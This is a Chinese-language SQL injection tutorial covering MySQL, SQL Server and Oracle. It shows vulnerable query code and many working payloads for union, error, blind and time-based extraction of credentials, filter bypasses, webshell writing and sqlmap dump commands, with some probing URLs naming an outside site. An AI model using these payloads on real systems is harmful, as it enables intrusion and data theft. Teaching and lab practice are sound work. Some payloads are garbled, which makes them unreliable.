# SQL注入漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————		     	      **注：此处都是基于MySQL数据库进行讲解，如需要了解其他数据库注入请跳转到第十章**																							                                 

### 一、什么是SQL注入

​	所谓SQL注入就是用户在能够控制SQL查询、更新、插入、删除等语句的参数的情况下，攻击者通过构造特殊的输入字符串使后端程序错误地识别SQL查询语句中的代码与数据部分从而导致数据库管理系统输出了非预期的结果的一种行为。

### 二、SQL注入基本认识

 SQL注入本质上来讲就是拼接字符串，通过输入额外的信息破坏后端脚本原有的查询语句结构，从而达成注入的目的。

 举个例子，后端的一段查询代码是下面这样的：

```php
//后端脚本语言为PHP
$query="select name,age,gender from t_students where id={$_GET['id']}";
```

当用户正常输入的时候：

```
http://www.armandhe.com/query.php?id=1
```

但后端的查询语句实际上是这样的：

```
$query="select name,age,gender from t_students where id=1";
```

但攻击者往往不会这样中规中矩，他们往往会构造这样的输入：

```
http://www.armandhe.com/query.php?id=-1 union select 1,database(),3 --+
```

此时后端的查询语句变成：

```
$query="select name,age,gender from t_students where id=-1 union select 1,database(),3 -- ";
```

此时攻击者就成功获取到了你的数据库名称。

通过上面的例子我们可以看出，攻击者构造的查询参数在SQL语句中没有被当作一个字符串对待，而是具有了实际的功能特性，这是PHP的语法决定的，它只是简单地将用户的输入与后端预定义的语句做了一个拼接，将拼接的结果整体作为一条SQL的查询语句。正是这个特性导致了SQL注入的产生，那么为了避免SQL注入，我们可以考虑的一点是不是可以想办法让PHP将用户输入的参数当作SQL语句的结构，而只作为参数呢？这就是预防SQL注入的另一个方向，PHP预编译技术，当然这个我们容后再讨论。

### 三、SQL注入的危害

1、绕过登录验证：使用万能密码登录网站后台等。

```
' or '1' = '1' #
```

2、获取敏感数据：获取网站管理员帐号、密码等。
3、文件系统操作：列目录，读取、写入文件等。
4、注册表操作：读取、写入、删除注册表等。
5、执行系统命令：远程执行命令。

### 四、SQL测试方法

判断注入漏洞的依据是什么？

——>根据客户端返回的结果来判断提交的测试语句是否成功被数据库引擎执行，如果测试语句被执行了，说明存在注入漏洞。

思路：寻找可能的注入点——>构造测试语句——>提交请求——>分析结果——>不符合预期结果——>不存在SQL注入漏洞

​										 	 ——>符合预期结果  ——>存在SQL注入漏洞

步骤：闭合查询语句——>判断注入类型——>构造验证语句——>验证获取数据

#### 1、**判断注入类型是数字型(int)还是字符型(char)**

```
https://www.juc.edu.bd/page.php?id=2/2 
```

“ id=2 ”除于自己也就是2——> ” id=2/2 “，如果跳转页面变化了就是数字型（int)，没跳转就是字符型(char)

如果是int类型则会输出1，页面返回到id=1的页面，如果是char类型则不会返回，这是判断数字型和字符型较为快捷的办法


又或者

```
https://www.juc.edu.bd/page.php?id=2' --+
```

```
https://www.juc.edu.bd/page.php?id=2" --+
```

```
https://www.juc.edu.bd/page.php?id=2 
```

结论：输入单引号时候可以正常显示，说明存在双引号

​     输入双引号的时候可以正常显示，说明存在单引号（只有什么特殊符号都没有的情况下才会报错）

​	 --+ 是注释符 为了尽可能排除一些其他不可预测的情况，所以最好添加

​	 都不能正常显示就说明不存在任何引号，是数字型

判断存在什么类型的SQL注入漏洞会在SQL注入分类里面，每一个模块再细讲

#### 2、SQL注入的测试方法-数字型



#### 3、SQL注入的测试方法-字符型



### 五、SQL注入分类

#### 1、基于注入点位置的分类

##### 1)GET注入

所谓GET型注入，顾名思义，即注入点的参数是同通过GET请求发送到后端进行处理的。其又可以分为下面两种情形：

###### 1>url注入

即注入点在url中。举个例子，现在有一个网页，实现了根据学生学号，来查询学生基本信息的功能，学生的id信息是通过GET方法传参发送到后端的，其请求的url如下

```
http://www.armandhe.com/query.php?id=20140379
```

后台处理代码如下

```php
$query="select name,age,gender from t_students where id={$_GET['id']}";
```

在该例中，我们通过修改url中的id参数的值，来控制前端页面的显示结果。因为没有过滤的原因，我们输入的任何参数值都将被直接拼接到SQL查询语句中，那么我们就可以通过联合查询注入的方式进行注入。

###### 2>请求头注入(user-agent)

简单理解就是注入点在请求头中。还是上面的例子，不过url中的参数被后端进行了严格的过滤，不存在任何的注入方法，但后端在进行处理的时候不仅仅是使用了查询语句，还对我们请求头中的user-agent字段在数据库中进行了查询，来防止恶意爬虫，但憨憨程序员却没有对用户的请求头做过滤。于是乎我们可以在请求头中构造恶意代码。后端处理逻辑如下：

```php
$link = @mysqli_connect($host,$username,$password,$dbname,$port);
$userAgent=getallheaders()['User-Agent'];
$query="select * from AgentJudge where userAgent='{$userAgent}'";
$result=mysqli_query($link,$query);
if (mysqli_num_rows($result)!=0){
	print('请不要恶意浏览本网页');
}
```

可以看到后端代码中并没有对`user-agent`字段做过滤，那么我们就可以直接开始构造注入语句：
这里我们可以通过BurpSuite抓包来修改`user-agent`字段：



当然我们不能直接上来就构造联合查询注入，这一点后面再将，这里只是演示请求头注入的效果。
那么又有一个问题，我们怎么知道后端对user-agetn字段做了判断呢？没错，我们不知道，所以这就需要我们在可能的注入点挨个尝试？是不是有一种生无可恋的感觉，那么多注入点，得尝试到什么时候？这时候就得我们得注入神器sqlmap登场了。这个容后再说。

##### 2)POST注入

POST注入与GET注入不同的地方在于请求的参数是放在请求体中而不是在url中直接显示给用户的。那么我们怎么才能劫持并修改通过POST方法上传的参数呢？这时候就需要我们的渗透测试神器BuripSuite登场了。正常POST请求信息如下：



我们注入之后的请求如下



#### 2、基于变量数据类型分类

##### 1）数字型注入

我们传入的参数在后端代码中没有被引起来的时候，我们称这种情况为数字型注入。当然之后参数类型为数字的时候，才存在区分数字型和字符型的情况

```
$query="select name,age,gender from t_students where id={$_GET['id']}";
```

此时我们传入的参数直接与`id`进行比较

##### 2）字符型注入

当我们传入的参数在后端代码中被引号引起来的时候，我们称这种情况为字符型注入

###### 1>单引号闭合

看下面的例子

```php
$query="select name,age,gender from t_students where id='{$_GET['id']}'";
```

此时我们的参数`$_GET['id']`被单引号引起来了

###### 2>双引号闭合

```php
$id='"'.$_GET['id'].'"';
$query="select name,age,gender from t_students where id={$id}";
```

此时我们的参数`$_GET['id']`被双引号引起来了，所以大家觉得哪个憨憨程序员会这么写呢？？所以双引号作为闭合符的情况基本上不可能出现。

#### 3、基于获取数据的方法分类

###### 1）回显注入                            

**三种注入poc**

```
 where user_id = 1 or 1=1

 where user_id = '1' or '1'='1'

 where user_id =" 1 "or "1"="1"
```

**三种sql注释符**

```
#   单行注释  注意与url中的#区分，常编码为%23

--空格   单行注释 注意为短线短线空格

/*（）*/   多行注释 至少存在俩处的注入  /**/常用来作为空格
```

**注入流程**

```
是否存在注入并且判断注入类型

判断字段数  order by 

确定回显点   union select 1,2

查询数据库信息  @@version  @@datadir

查询用户名，数据库名   user()  database()

文件读取 union select 1,load_file('C:\\wondows\\win.ini')#

写入 webshell    select..into outfile...

补充一点，使用sql注入遇到转义字符串的单引号或者双引号，可使用HEX编码绕过
```

**sql注入**

```
SQL Injection，即SQL注入，SQLi，是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意SQL语句的目的。SQL注入漏洞的危害巨大，常常会导致整个数据库被“脱裤”，如今SQL注入仍是现在最常见的Web漏洞之一。
```

**SQL 注入分类**

```
按SQLMap中的分类来看，SQL注入类型有以下5种：

UNION query SQL injection（可联合查询注入）

Stacked queries SQL injection（可多语句查询注入）堆叠查询

Boolean-based blind SQL injection（布尔型注入）

Error-based SQL injection（报错型注入）

Time-based blind SQL injection（基于时间延迟注入）
```

**SQL 注入常规利用思路**

```
 1、寻找注入点，可以通过 web 扫描工具实现

 2、通过注入点，尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息。

 3、猜解关键数据库表及其重要字段与内容（常见如存放管理员账户的表名、字段名等信息）

 3.1 还可以获取数据库的root账号 密码—思路

 4、可以通过获得的用户信息，寻找后台登录。

 5、利用后台或了解的进一步信息。
```

**手工注入常规思路**

```
 1.判断是否存在注入，注入是字符型还是数字型

 2.猜解 SQL 查询语句中的字段数

 3.确定显示的字段顺序

 4.获取当前数据库

 5.获取数据库中的表

 6.获取表中的字段名

 7.查询到账户的数据
```

**下面对四种级别的代码进行分析。**

**猜数据库**

```
1' union select 1,database()#

payload利用另一种方式：

1' union select user(),database()#

Version()#

得到数据库名：dvwa

PS：union查询结合了两个select查询结果，根据上面的order by语句我们知道查询包含两列，为了能够现实两列查询结果，我们需要用union查询结合我们构造的另外一个select.注意在使用union查询的时候需要和主查询的列数相同。
```

**猜表名**

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#

得到表名：guestbook,users

group_concat 分组
```

**猜列名**

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name =0x7573657273#

1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#

(用编码就不用单引号，用单引号就不用编码)

 得到列：

user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password
```

**猜用户数据**

```
列举出几种payload:

1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #

1' union select null,concat_ws(char(32,58,32),user,password) from users #  

1' union select null,group_concat(concat_ws(char(32,58,32),user,password)) from users #  

得到用户数据：

admin 5f4dcc3b5aa765d61d8327deb882cf99
```

**猜root用户**

```
1' union select 1,group_concat(user,password) from mysql.user#

得到root用户信息：

root*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

###### 2）报错注入

**XSS-Payload**

```
1、通过floor报错,注入语句如下:
and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
and (extractvalue(1,concat(0x7e,(select user()),0x7e)))

3、通过UpdateXml报错,注入语句如下:
and (updatexml(1,concat(0x7e,(select user()),0x7e),1))

4、通过NAME_CONST报错,注入语句如下:
and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;

6、通过exp报错,注入语句如下:
and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
```

###### 3）布尔盲注

		当存在SQL注入时，攻击者无法通过页面或请求的返回信息，回显或获取到SQL注入语句的执行结果，这种情况就叫盲注。布尔型盲注就是利用返回的True或False来判断注入语句是否执行成功。它只会根据你的注入信息返回Ture跟Fales，也就没有了之前的报错信息。

**什么情况下考虑使用布尔盲注？**

```
1、该输入框存在注入点。

2、该页面或请求不会回显注入语句执行结果，故无法使用UNION注入。

3、对数据库报错进行了处理，无论用户怎么输入都不会显示报错信息，故无法使用报错注入。
```

**常用函数**

```
length（str）函数 返回字符串的长度
substr（str,poc,len）截取字符串,poc表示截取字符串的开始位，len表示截取字符串的长度
ascii（）返回字符的ascii码，返回该字符对应的ascii码
count（）：返回当前列的数量
case when (条件) then 代码1 else 代码2 end :条件成立，则执行代码1，否则执行代码2
```

**函数替换**

```
1、如果程序过滤了substr函数，可以用其他函数代替：效果与substr（）一样
	left（str，index）从左边第index开始截取
	right(str，index)从右边第index开始截取
	substring（str，index）从左边index开始截取
	mid（str，index，len）截取str从index开始，截取len的长度
	lpad（str，len，padstr）
	rpad（str，len，padstr）在str的左（右）两边填充给定的padstr到指定的长度len，返回填充的结果
```



```
2、如果程序过滤了 = （等于号），可以用in()、like代替，效果一样：
```



```
3、如果程序过滤了ascii（），可以用hex()、bin（）、ord()代替，效果一样：
```



布尔注入一般流程

```
因为盲注不能直接用database（）函数得到数据库名，所以步骤如下：

①判断数据库名的长度：and length(database())>11 回显正常；and length(database())>12 回显错误，说明数据库名是等于12个字符。

②猜测数据库名（使用ascii码来依次判断）：and (ascii(substr(database(),1,1)))>100 --+ 通过不断测试，确定ascii值，查看asciii表可以得出该字符，通过改变database（）后面第一个数字，可以往后继续猜测第二个、第三个字母…

③猜测表名：and (ascii(substr((select table_name from information_schema.tables where table.schema=database() limit 1,1)1,1)>144 --+ 往后继续猜测第二个、第三个字母…

④猜测字段名（列名）：and (ascii(substr((select column_name from information_schema.columns where table.schema=database() and table_name=’数据库表名’ limit 0,1)1,1)>105 --+ 经过猜测 ascii为 105 为i 也就是表的第一个列名 id的第一个字母;同样,通过修改 limit 0,1 获取第二个列名 修改后面1,1的获取当前列的其他字段.

⑤猜测字段内容：因为知道了列名，所以直接 select password from users 就可以获取password里面的内容，username也一样 and (ascii(substr(( select password from users limit 0,1),1,1)))=68 --+
```

###### 4）时间盲注

```
	界面返回值只有一种,true无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。时间盲注与布尔盲注类似。时间型盲注就是利用时间函数的延迟特性来判断注入语句是否执行成功。
```

**什么情况下考虑使用时间盲注？**

```
1、无法确定参数的传入类型。整型，加单引号，加双引号返回结果都一样

2、不会回显注入语句执行结果，故无法使用UNION注入

3、不会显示报错信息，故无法使用报错注入

4、符合盲注的特征，但不属于布尔型盲注
```

**常用函数**

```
sleep(n)：将程序挂起一段时间 n为n秒。

if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句。

使用sleep()函数和if()函数：`and (if(ascii(substr(database(),1,1))>100,sleep(10),null))  --+`   如果返回正确则 页面会停顿10秒，返回错误则会立马返回。只有指定条件的记录存在时才会停止指定的秒数。
```

**时间盲注一般流程**

```
①猜测数据库名称长度：
输入：id=1' and If(length(database()) > 1,1,sleep(5)) --+
用时：<1s，数据库名称长度>1
…
输入：id=1' and If(length(database()) >8 ,1,sleep(5)) --+
用时：5s，数据库名称长度=8
得出结论：数据库名称长度等于8个字符。

②猜测数据库名称的一个字符：
输入：id=1' and If(ascii(substr(database(),1,1))=97,sleep(5),1) --+
用时：<1s
…
输入：id=1' and If(ascii(substr(database(),1,1))=115,sleep(5),1) --+
用时：5s
得出结论：数据库名称的第一个字符是小写字母s。
改变substr的值，以此类推第n个字母。最后猜出数据库名称。

③猜测数据库表名：先猜测长度，与上面内容相似。

④猜测数据库字段：先猜测长度，与上面内容相似。

⑤猜测字段内容：先猜测长度，与上面内容相似。
```

###### 5）堆叠注入

**一、堆叠注入原理**

```
mysql数据库sql语句的默认结束符是以`;`结尾，在执行多条SQL语句时就要使用结束符隔开，那么在`;`结束一条sql语句后继续构造下一条语句，是否会一起执行？
因此这个想法也就造就了堆叠注入
```

**二、堆叠注入触发条件**

```
堆叠注入触发的条件很苛刻，因为堆叠注入原理就是通过结束符同时执行多条sql语句，这就需要服务器在访问数据端时使用的是可同时执行多条sql语句的方法，例如php中的mysqli_multi_query函数。但与之相对应的mysqli_query()函数一次只能执行一条sql语句，所以要想目标存在堆叠注入,在目标主机没有对堆叠注入进行黑名单过滤的情况下必须存在类似于mysqli_multi_query()这样的函数,简单总结下来就是

1、目标存在sql注入漏洞
2、目标未对";"号进行过滤
3、目标中间层查询数据库信息时可同时执行多条sql语句
```

**堆叠注入的局限性**：

```
堆叠注入并不是在每种情况下都能使用的。大多数时候，因为API或数据库引擎的不支持，堆叠注入都无法实现。
```

###### 6）二次注入

###### 7）文件读写

###### 8）dnslog

###### 9）宽字节注入

### 六、SQL注入的一些绕过方式

###### 1.空格绕过：	

​			%09(tab键-水平制表符-相当于很多个空格),%0b(tab键-垂直制表符-相当于回车)   都是与ASCII码有关的


​			() 括号当成空格一般用于时间盲注的时候较多,/**/

###### 2.双写绕过（and or  union等）（只删除一次）

​		anandd, oorr,ununionion

###### 3.大小写绕过

​		And,oR,uNiOn

###### 4.逻辑符号替换

​		and -->&&

​		or ---> ||

###### 5.注释符

​		#

​		--+

​		/**/

###### 6.编码绕过

​		hex（十六进制）编码绕过。

### 七、SQL注入工具的使用

#### 1、sqlmap

```
D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"
```

######         1)查看是否存在注入漏洞。

```
 sqlmap使用的一些常用命令参数
 
 --current-db  查看当前数据库名称
 
 --dbs		   查看mysql里面的所有数据库。
 
 --batch	   遇到选项，默认选择yes
 
 --cookie	   带上网站cookie
 
 --purge	   清除sqlmap的缓存记录
```

###### 2)查询数据库名为security

```
D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1" --current-db
```

###### 3)查询security数据库下面的表信息。

```
 D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"   -D security --tables
```

###### 4)查看security数据库的users表下面的字段信息。

```
  D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"   -D security -Tusers --columns
```

###### 5)查看字段下面的详细信息。

```
  D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"   -D security -Tusers -C username,password  --dump  
```

### 八、其他数据库注入

#### 1、SQL Server

##### 1)如何判断该网站使用的是sql server 数据库

```
1.根据后缀判断：如果后缀为aspx，数据库大概是sql server

2.根据报错信息判断，报错信息中有Microsoft 字样。

3.根据系统表判断，and (select count（*）from sysdatabases) >0 ,如果成立的话，则说明它里边含有这个系统表，可以判断为sql server 数据库 sql server 数据库包含三张主要系统表
```

##### 2)sql server 数据库包含三张主要系统表

```
1.sysdatabases :这张表保存在master数据库中，里边的name字段下存放的是所有数据库的库名。

2.sysobjects：这张表保存的是数据库的表的信息，里边的id字段存放的是表的id，name为表名，xtype 字段存放的是表的类型，u代表为用户创建的表，s表示该表是系统表。

3.syscolumns：这张表存放的是数据库中字段的信息，id 为表的id，该id可以通过sysobjects获得。name为字段名称。
```

##### 3)sql server 主要函数

```
1.host_name() :返回服务器端主机名称。

2.current_user()：返回当前数据库用户。

3.db_name():返回当前数据库库名。

4.char():将ASCII码转化为对应的字符。

5.ASCII():将字符转化为对应的ASCII码。

6.substring():截取字符串。
```

##### 4)数据库的注入流程

```
1.获取数据库名称

2.获取数据库中表的名称

3.获取数据库中表的列名

4.获取对应的数据 
```

##### 5)sql server的联合查询

###### 1.使用union关键字

###### 2.使用union联合查询注意事项

```
1.首先还是需要知道查询的列数，使用order by n 进行判断n表示具体列数。

2.sql server数据库与MySQL数据库不同的是，sql server数据库前后的数据类型必须一致。

3.判断出数据的显示位置。

4.使得先前的查询结果为空。
```

###### 3.sql server数据库使用联合查询的演示。

注：该网站为个人搭建的网站，不可利用真实网站进行攻击。


**3.1首先判断注入点，其次判断注入类型**

加入单引号，发现有报错信息 




**3.2 直接使用2-1判断其数据类型**

发现页面回显成功，所以可以确定为数字型，接下来使用union联合查询



**3.3 使用order by 判断其列数**

可以发现列数为13列






**3.4 确认每列的数据类型，所以发现数据类型不兼容，可以使用null做替换**


当我们全部使用null时，发现还是不对，产生这一错误的原因是union语句合并查询时是默认去除重复项的，也就是默认执行了distinct操作。




因此需要将union 改为 union all 不去除重复项，就能够解决这个报错。一般到这里之后就可以直接接着往下获取数据库了， 但是这里的环境有报错了，说明查询出来的时候，还存在数据类型不匹配，继续从头替换为null ，直到不报错为止。最终确定为3,4,6,7,10,11为字符 ， 1,2,5,8,9,12,13为数字型



**3.5 现在可以首页联合查询获取数据库的相关信息**

**3.5.1 获取数据库库名**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from master..sysdatabases
```



**3.5.2 获取当前数据库的库名**

```
payload：id=1  UNION all SELECT 1,2,db_name(),null,5,null,null,8,9,null,null,12,13 from master..sysdatabases
```



**3.5.3 获取数据库中的表名**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from jiaofan..sysobjects where xtype = 0x75 
```



**3.5.4 获取当前表名的字段**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from jiaofan..syscolumns where id = (select id from jiaofan..sysobjects where name = 0x73006C005F007500730065007200)
```



**5.3.5 获取字段下具体的值**

```
payload：id=1  UNION all SELECT 1,2,shouji,null,5,youxiang,null,8,9,null,null,12,13 from  sl_user
```




##### 6)sql server的报错注入

与其他数据库报错注入类似。


###### 1.sql server 报错注入的演示


**1.1获取当前数据库**

```
payload：id=1  and 1=(select db_name())
```




**1.2获取所有数据库（由于我们使用的是and 1= ()进行的报错，所以一次只能获取一个值，这时可以使用top函数）**

```
payload：id=1  and 1= (select top 1 name from master..sysdatabases) 
```

如果想获取第二行数据，

```
payload：id=1  and 1= (select top 1 name from master..sysdatabases where name not in( select top 1 name from master..sysdatabases ))
```

 


**1.3获取当前数据库的表名**

```
payload:id=1 and 1= (select top 1 name from jiaofan..sysobjects where xtype = 0x75) 
```



**1.4获取表中的字段名**

由于涉及到两张表，所以可以将两张表联合起来

```
payload：id=1 and 1= (select top 1 c.name from jiaofan..syscolumns c ,jiaofan..sysobjects o where c.id = o.id and o.name =0x73006C005F007500730065007200 ) 
```



##### 7)sql server 的布尔型盲注


###### 1.sql server 布尔型盲注的演示


**1.1获取数据库的数据库个数**

```
payload：id=1 and (select count(*) from master..sysdatabases) >7
```



```
id=1 and (select count(*) from master..sysdatabases) >8
```



**1.2获取当前数据库的信息**

```
payload：id=1 and substring((select db_name()),1,1)=char(106)
```




#### 2、Oracle

##### 1)Oracle数据库介绍

```
	Oracle Database，又名Oracle RDBMS，或简称Oracle。是甲骨文公司的一款关系数据库管理系统。它是在数据库领域一直处于领先地位的产品。可以说Oracle数据库系统是世界上流行的关系数据库管理系统，系统可移植性好、使用方便、功能强，适用于各类大、中、小微机环境。它是一种高效率的、可靠性好的、适应高吞吐量的数据库方案。

Oracle对于MYSQL、MSSQL来说意味着更大的数据量，更大的权限。

Oracle服务默认端口：1521
```

##### 2)Oracle权限分类

```
权限是用户对一项功能的执行权力。在Oracle中，根据系统管理方式不同，将Oracle权限分为系统权限与实体权限两类。系统权限是指是否被授权用户可以连接到数据库上，在数据库中可以进行哪些系统操作。而实体权限是指用户对具体的模式实体(schema)所拥有的权限。

系统权限：系统规定用户使用数据库的权限。（系统权限是对用户而言)。

实体权限：某种权限用户对其它用户的表或视图的存取权限。（是针对表或视图而言的）。
```

##### 3)系统权限管理

```
—— 系统权限分类 ——

•DBA: 拥有全部特权，是系统最高权限，只有DBA才可以创建数据库结构。•RESOURCE:拥有Resource权限的用户只可以创建实体，不可以创建数据库结构。•CONNECT:拥有Connect权限的用户只可以登录Oracle，不可以创建实体，不可以创建数据库结构。

对于普通用户：授予connect, resource权限。

对于DBA管理用户：授予connect，resource, dba权限。
```

```
系统权限授权命令： 系统权限只能由DBA用户授出：sys, system(最开始只能是这两个用户) 授权命令：SQL> grant connect, resource, dba to 用户名1 [,用户名2]…; 注:普通用户通过授权可以具有与system相同的用户权限，但永远不能达到与sys用户相同的权限，system用户的权限也可以被回收。 例： SQL> connect system/manager SQL> Create user user50 identified by user50; SQL> grant connect, resource to user50;

查询用户拥有哪里权限： SQL> select from dba_role_privs; SQL> select from dba_sys_privs; SQL> select * from role_sys_privs;

查自己拥有哪些系统权限 SQL> select * from session_privs;

删除用户 SQL> drop user 用户名 cascade; //加上cascade则将用户连同其创建的东西全部删除

系统权限传递：增加WITH ADMIN OPTION选项，则得到的权限可以传递。 SQL> grant connect, resorce to user50 with admin option; //可以传递所获权限。

系统权限回收：系统权限只能由DBA用户回收 SQL> Revoke connect, resource from user50;

说明： 1）如果使用WITH ADMIN OPTION为某个用户授予系统权限，那么对于被这个用户授予相同权限的所有用户来说，取消该用户的系统权限并不会级联取消这些用户的相同权限。 2）系统权限无级联，即A授予B权限，B授予C权限，如果A收回B的权限，C的权限不受影响；系统权限可以跨用户回收，即A可以直接收回C用户的权限。
```

##### 4)实体权限管理

```
—— 实体权限分类 ——

•select, update, insert, alter, index, delete, all //all包括所有权限•execute //执行存储过程权限
```

```
user01: SQL> grant select, update, insert on product to user02; SQL> grant all on product to user02;

user02: SQL> select * from user01.product; // 此时user02查user_tables，不包括user01.product这个表，但如果查all_tables则可以查到，因为他可以访问。

将表的操作权限授予全体用户： SQL> grant all on product to public; // public表示是所有的用户，这里的all权限不包括drop。

实体权限数据字典 SQL> select owner, table_name from all_tables; // 用户可以查询的表 SQL> select table_name from user_tables; // 用户创建的表 SQL> select grantor, table_schema, table_name, privilege from all_tab_privs; // 获权可以存取的表（被授权的） SQL> select grantee, owner, table_name, privilege from user_tab_privs; // 授出权限的表(授出的权限)

DBA用户可以操作全体用户的任意基表(无需授权，包括删除)：

DBA用户： SQL> Create table stud02.product( id number(10), name varchar2(20)); SQL> drop table stud02.emp;

SQL> create table stud02.employee as select * from scott.emp;

实体权限传递(with grant option)：

user01: SQL> grant select, update on product to user02 with grant option; // user02得到权限，并可以传递。

实体权限回收：

user01: SQL>Revoke select, update on product from user02; //传递的权限将全部丢失。

说明 1）如果取消某个用户的对象权限，那么对于这个用户使用WITH GRANT OPTION授予权限的用户来说，同样还会取消这些用户的相同权限，也就是说取消授权时级联的。
```

##### 5)管理角色

```
建一个角色 sql>create role role1;

授权给角色 sql>grant create any table,create procedure to role1;

授予角色给用户 sql>grant role1 to user1;

查看角色所包含的权限 sql>select * from role_sys_privs;

创建带有口令以角色(在生效带有口令的角色时必须提供口令) sql>create role role1 identified by password1;

修改角色：是否需要口令 sql>alter role role1 not identified; sql>alter role role1 identified by password1;

设置当前用户要生效的角色 (注：角色的生效是一个什么概念呢？假设用户a有b1,b2,b3三个角色，那么如果b1未生效，则b1所包含的权限对于a来讲是不拥有的，只有角色生效了，角色内的权限才作用于用户，最大可生效角色数由参数MAX_ENABLED_ROLES设定；在用户登录后，oracle将所有直接赋给用户的权限和用户默认角色中的权限赋给用户。） sql>set role role1; //使role1生效 sql>set role role,role2; //使role1,role2生效 sql>set role role1 identified by password1; //使用带有口令的role1生效 sql>set role all; //使用该用户的所有角色生效 sql>set role none; //设置所有角色失效 sql>set role all except role1; //除role1外的该用户的所有其它角色生效。 sql>select * from SESSION_ROLES; //查看当前用户的生效的角色。

修改指定用户，设置其默认角色 sql>alter user user1 default role role1; sql>alter user user1 default role all except role1;

删除角色 sql>drop role role1;

角色删除后，原来拥用该角色的用户就不再拥有该角色了，相应的权限也就没有了。

说明: 1)无法使用WITH GRANT OPTION为角色授予对象权限 2)可以使用WITH ADMIN OPTION 为角色授予系统权限,取消时不是级联
```

##### 6)PL/SQL语言

```
PL/SQL也是一种程序语言，叫做过程化SQL语言（Procedual Language/SQL）。

PL/SQL是Oracle数据库对SQL语句的扩展。在普通SQL语句的使用上增加了编程语言的特点，所以PL/SQL就是把数据操作和查询语句组织在PL/SQL代码的过程性单元中，通过逻辑判断、循环等操作实现复杂的功能或者计算的程序语言。在PL/SQL编程语言是由甲骨文公司在20世纪80年代，作为SQL程序扩展语言和Oracle关系数据库开发。

基本存储过程结构：
```

```
DECLARE
    <declarations section>
BEGIN
    <executable command(s)>
EXCEPTION
    <exception handing>
END;
```

##### 7)Oracle注入需注意的规则

```
1.Oracle使用查询语言获取需要跟上表名，这一点和Access类似，没有表的情况下可以使用dual表，dual是Oracle的虚拟表，用来构成select的语法规则，Oracle保证dual里面永远只有一条记录。

2.Oracle的数据库类型是强匹配，所以在Oracle进行类似Union查询数据时必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用NULL代替某些无法快速猜测出的数据类型位置，这一点和SQLServer类似。

3.Oracle和mysql不一样，分页中没有limit，而是使用三层查询嵌套的方式实现分页 例如: SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >=0

4.Oracle的单行注释符号是--，多行注释符号/**/。

5.Oracle 数据库包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如user_tab_columns，all_tab_columns，all_tables，user_tables 系统表就存储了用户的所有的表、列名，其中table_name 表示的是系统里的表名，column_name 里的是系统里存在的列名。

6.Oracle使用||拼接字符串（在URL中使用编码%7c表示），concat()函数也可以实现两个字符串的拼接
```

##### 8)实验环境

```
•操作系统：Windows Server 2008R2•数据库：Microsoft SQL Server 2008R2•Web服务器：Tomcat 7.0•脚本语言：jsp•源代码：index.jsp•  本地域名配置：hackrock.com:8080
```

```html
<%@ page language="java" import="java.util.*"  pageEncoding="utf-8"%>
<%@ page import="oracle.jdbc.*"%>
<%@ page import="java.sql.*" %>
<%@ page import="oracle.sql.*" %>

<%
String path = request.getContextPath();
String basePath = request.getScheme()+"://"+request.getServerName()+":"+request.getServerPort()+path+"/";
%>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
  <head>
    <base href="<%=basePath%>">
    
    <title>Oracle注入测试</title>
        <meta http-equiv="pragma" content="no-cache">
        <meta http-equiv="cache-control" content="no-cache">
        <meta http-equiv="expires" content="0">    
        <meta http-equiv="keywords" content="keyword1,keyword2,keyword3">
        <meta http-equiv="description" content="This is my page">
        <!--
        <link rel="stylesheet" type="text/css" href="styles.css" mce_href="styles.css">
        -->
  </head>
  
  <body> 
    <%
        String  url  =  "http://"  +  request.getServerName()  +  ":"  +  request.getServerPort()  +  request.getContextPath()+request.getServletPath();
            Class.forName("oracle.jdbc.driver.OracleDriver").newInstance();
            Statement stmt = null;
            ResultSet rs=null;
            String oraUrl="jdbc:oracle:thin:@127.0.0.1:1521:orcl";
            String oraUser="TEST";
            String oraPWD="123456";
            try
            {
